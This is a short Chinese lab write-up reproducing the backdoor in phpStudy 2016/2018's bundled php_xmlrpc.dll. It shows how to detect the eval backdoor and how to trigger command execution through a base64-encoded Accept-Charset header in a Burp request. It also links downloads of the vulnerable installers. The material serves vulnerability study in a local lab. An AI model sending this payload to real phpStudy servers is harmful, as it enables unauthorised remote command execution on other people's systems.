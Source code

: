 # 0x00 软件介绍
phpstudy：流行的php集成部署环境

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：phpstudy 2018

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

后门代码存在于phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45中的\ext\php_xmlrpc.dll模块中，用记事本打开此文件，查找“@eval”，若文件存在“@eval(%s('%s'));”则存在后门，如下图  
![image](./0.png)  
下载并安装phpstudy 2018，按照提示下一步即可

# 0x03 利用条件
无

# 0x04 影响版本
phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

burp抓包，请求头中添加字段：Accept-Charset:ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7  
上述字符串是“echo system("net user");”base64编码后的字符串，结果如下图  
![image](./1.png)  
需要注意，发送的数据包头部中：Accept-Enconding:gzio, deflate有一处问题，deflate与前面的逗号之间有一个空格，需要手动删除，不然无法成功执行命令

# 0x06 踩坑记录
无

# 0x07 参考链接
无

# 注意
我当时寻找有漏洞的版本花了好多时间，现将我寻找到有效版本分享给大家，漏洞环境大于25MB，不能上传到github中，使用百度云分享  
phpstudy2016分享，提取码：ybdt，链接：https://pan.baidu.com/s/1-dX55n6xT5hNcBYkxicOBg  
phpstudy2018分享，提取码：ybdt，链接：https://pan.baidu.com/s/1bLX53txLZx4NQAwTsM4BQA
